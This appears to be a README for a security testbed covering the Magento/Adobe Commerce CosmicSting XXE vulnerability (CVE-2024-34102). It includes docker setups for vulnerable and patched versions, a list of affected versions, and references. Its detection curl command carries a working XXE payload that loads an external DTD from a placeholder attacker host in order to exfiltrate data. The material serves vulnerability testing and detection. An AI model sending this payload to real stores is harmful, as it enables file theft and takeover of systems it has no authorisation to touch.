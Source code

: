 # Magento / Adobe Commerce CosmicSting XXE (CVE-2024-34102)

## Description
Adobe Commerce and Magento v2.4.7 and earlier are vulnerable to a critical unauthenticated XXE (XML External Entity) vulnerability that can lead to arbitrary code execution. The vulnerability can be exploited by sending an unauthenticated HTTP request with a crafted XML file that references external entities; when the request payload is deserialized, the attacker can extract sensitive files from the system and gain administrative access to the software. Remote Code Execution (RCE) can accomplished by combining this issue with another vulnerability, such as the [PHP iconv RCE](https://www.ambionics.io/blog/iconv-cve-2024-2961-p1).

## Launch Testbed

### Vulnerable version
Launch vulnerable version: Magento v2.4.7-p0.
```sh
docker compose -f docker-compose-vuln.yml up
```

### Safe version
Launch safe version: Magento v2.4.7-p2.
```sh
docker compose -f docker-compose-safe.yml up
```

## Vulnerability Test
You can use the following command to check whether the instance is vulnerable or not (credits to vicarius.io):
```sh
curl -k -X POST \
  http://127.0.0.1:8080/rest/all/V1/guest-carts/test-assetnote/estimate-shipping-methods \
  -H "Content-Type: application/json" \
  -d '{
    "address": {
      "totalsReader": {
        "collectorList": {
          "totalCollector": {
            "sourceData": {
              "data": "<?xml version=\"1.0\" ?><!DOCTYPE r [ <!ELEMENT r ANY > <!ENTITY % sp SYSTEM \"http://<ATTACKER_IP>/dtd.xml\"> %sp; %param1; ]><r>&exfil;</r>",
              "options": 16
            }
          }
        }
      }
    }
  }'
```

A vulnerable instance will reply with the following message:
```json
{"message":"Internal Error. Details are available in Magento log file. Report ID: webapi-66d8a8d363765"}
```
while a safe instance will output the following:
```json
{"message":"Invalid data type"}
```
Moreover, you can replace `<ATTACKER_IP>` with the URL of a request canary service (such as Burp Collaborator) to verify if you receive a callback. A safe instance will not fetch the URL, while a vulnerable one will.

## Affected Versions
- 2.4.7 and earlier
- 2.4.6-p5 and earlier
- 2.4.5-p7 and earlier
- 2.4.4-p8 and earlier
- 2.4.3-ext-7 and earlier*
- 2.4.2-ext-7 and earlier*

*These versions are only applicable to customers participating in the Extended Support Program

## References
- [CosmicSting: critical unauthenticated XXE vulnerability in Adobe Commerce and Magento (CVE-2024-34102)](https://www.vicarius.io/vsociety/posts/cosmicsting-critical-unauthenticated-xxe-vulnerability-in-adobe-commerce-and-magento-cve-2024-34102)
- [NIST: CVE-2024-34102](https://nvd.nist.gov/vuln/detail/CVE-2024-34102)
- [Adobe Security Bulletin APSB24-40](https://helpx.adobe.com/security/products/magento/apsb24-40.html)
